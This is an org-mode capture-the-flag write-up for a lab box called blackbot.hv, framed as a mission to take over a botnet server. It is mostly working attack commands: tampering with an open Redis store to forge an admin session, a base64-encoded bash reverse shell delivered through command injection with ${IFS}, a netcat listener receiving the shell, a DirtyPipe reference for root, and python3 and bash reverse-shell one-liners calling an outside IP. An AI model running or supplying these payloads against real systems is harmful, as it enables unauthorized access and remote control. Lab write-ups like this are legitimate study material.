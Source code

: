 #+title: Bot Busters
#+AUTHOR: gabriel

* Intro
Get ready for an exciting mission! You need to join an operation to complete a critical mission to detect a botnet group lurking in the dark corners of the cyber world.

Recent cyber intelligence reports indicate that a group behind several DDoS attacks in the past is planning to launch several DDoS attacks in the near future. Many companies, institutions and organizations are known to be targeted. As a result of the analysis and research, a server used by the attackers was identified. It is thought that a botnet network is used through this server. We will reach the exact result after your research.

You will start your mission to uncover these attackers who have caused many services to collapse and chaos to reign. In order to stop the cyber attackers behind these botnet attacks, you will first need to take over their botnet site and server. This will stop the attacks and identify who their targets are.

This exciting mission will require the highest level of strategy and speed to use your technical knowledge to stop the cyber attack. Your courage, intelligence and skills will be the keys to combating the insidious threats of the cyber world.

* open ports
- 22
- 80
- 6379

*GEt and modify the cookie value at REdis* ->
  #+begin_src sh
[10:09][]~ ✮ redis-cli -h blackbot.hv
blackbot.hv:6379> keys *
1) "df7e0133-17b0-4430-a1ef-3c0edcc2d85a"
blackbot.hv:6379> get df7e0133-17b0-4430-a1ef-3c0edcc2d85a
"{\"userID\":\"fa6d90c4-feb0-4a9c-af59-05aa6d014476\",\"username\":\"jon\",\"isA
dmin\":false,\"isPremium\":false}"
blackbot.hv:6379> set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da
10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremi
um\":true}"
OK
blackbot.hv:6379>
  #+end_src

*SEt new value at redis* ->
: set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremium\":true}"

*simple bash payload enconded base64* ->
: bash -i >& /dev/tcp/10.8.58.60/7777 0>&1
: IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjIwLjE5LjUwLzc3NzcgMD4mMQo=

*Request to get reverse shell with this bash base64 payload* ->
: 127.0.0.1&echo${IFS}"IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjIwLjE5LjUwLzc3NzcgMD4mMQo="|base64${IFS}-d|bash

*Th*
#+begin_src sh
┌─[✗]─[root@hackerbox]─[~]
└──╼ #nc -nlvp 7777
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 172.20.19.113.
Ncat: Connection from 172.20.19.113:48404.
bash: cannot set terminal process group (691): Inappropriate ioctl for device
bash: no job control in this shell
blackbot@comet:~/blackbot/cmd$
#+end_src


** priv escalation

This machine is vulnerable to CVE-2022-0847 -> DirtyPipe
https://github.com/Al1ex/CVE-2022-0847?tab=readme-ov-file


** payloads

*python3*
: import sys,socket,os,pty;s=socket.socket();s.connect(("10.8.58.60",6969));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

*bash*
: bash -i >& /dev/tcp/10.8.58.60/7777 0>&1
